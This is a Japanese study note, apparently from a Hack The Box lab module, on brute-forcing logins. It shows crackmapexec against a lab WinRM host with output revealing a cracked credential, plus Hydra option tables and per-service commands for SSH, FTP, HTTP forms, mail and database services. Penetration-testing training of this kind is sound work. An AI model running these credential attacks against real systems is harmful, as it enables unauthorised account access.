 
## ブルートフォースの実行
#### crackmapexec
```shell-session
crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```
protoには、サービス名を指定する
winrmをブルートフォース
```shell-session
snowyowl644@htb[/htb]$ crackmapexec winrm 10.129.42.197 -u user.list -p password.list

WINRM       10.129.42.197   5985   NONE             [*] None (name:10.129.42.197) (domain:None)
WINRM       10.129.42.197   5985   NONE             [*] http://10.129.42.197:5985/wsman
WINRM       10.129.42.197   5985   NONE             [+] None\user:password (Pwn3d!)
```

#### hydra
また、単一のユーザー名・パスワードの場合は小文字の-l、-pを使う
```shell-session
hydra -L user.list -P pass.list ftp://$Target_IP -v
```

hydraオプションの基本
```shell-session
hydra [login_options] [password_options] [attack_options] [service_options]
```

|                    |                                                                |                                                                                             |
| ------------------ | -------------------------------------------------------------- | ------------------------------------------------------------------------------------------- |
| `l LOGIN``-L FILE` | ログインオプション：単一のユーザー名（`-l`）またはユーザー名のリスト（`-L`）を含むファイルを指定します。       | `hydra -l admin ...``hydra -L usernames.txt ...`                                            |
| `-p PASS``-P FILE` | パスワードオプション：単一のパスワード（`-p`）またはパスワードのリストを含むファイル（`-P`）のいずれかを提供します。 | `hydra -p password123 ...``hydra -P passwords.txt ...`                                      |
| `-t TASKS`         | タスク：実行する並列タスク（スレッド）の数を定義し、攻撃を高速化する可能性があります。                    | `hydra -t 4 ...`                                                                            |
| `-f`               | ファストモード：最初のログインが見つかったら、攻撃を停止します。                               | `hydra -f ...`                                                                              |
| `-s PORT`          | ポート：ターゲットサービスにデフォルト以外のポートを指定します。                               | `hydra -s 2222 ...`                                                                         |
| `-v``-V`           | 詳細な出力：試行と結果を含む、攻撃の進行状況に関する詳細情報を表示します。                          | `hydra -v ...`または`hydra -V ...`（さらに冗長性のために）                                                 |
| `service://server` | ターゲット：サービス（例：`ssh`、`http`、`ftp`）とターゲットサーバーのアドレスまたはホスト名を指定します。  | `hydra ssh://192.168.1.100`                                                                 |
| `/OPT`             | サービス固有のオプション：対象サービスに必要な追加オプションを提供します。                          | `hydra http-get://example.com/login.php -m "POST:user=^USER^&pass=^PASS^"`（HTTPフォームベースの認証用） |
|                    |                                                                |                                                                                             |

##### Hydra サービス別コマンド

| **サービス**          | **コマンド例**                                                                                                    |
| ----------------- | ------------------------------------------------------------------------------------------------------------ |
| **FTP**           | hydra -l admin -P /path/to/password_list.txt ftp://192.168.1.100                                             |
| **SSH**           | hydra -l root -P /path/to/password_list.txt ssh://192.168.1.100                                              |
| **HTTP-GET/POST** | hydra -l admin -P /path/to/password_list.txt http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect" |
| **SMTP**          | hydra -l admin -P /path/to/password_list.txt smtp://mail.server.com                                          |
| **POP3**          | hydra -l user@example.com -P /path/to/password_list.txt pop3://mail.server.com                               |
| **IMAP**          | hydra -l user@example.com -P /path/to/password_list.txt imap://mail.server.com                               |
| **MySQL**         | hydra -l root -P /path/to/password_list.txt mysql://192.168.1.100                                            |
| **MSSQL**         | hydra -l sa -P /path/to/password_list.txt mssql://192.168.1.100                                              |
| **VNC**           | hydra -P /path/to/password_list.txt vnc://192.168.1.100                                                      |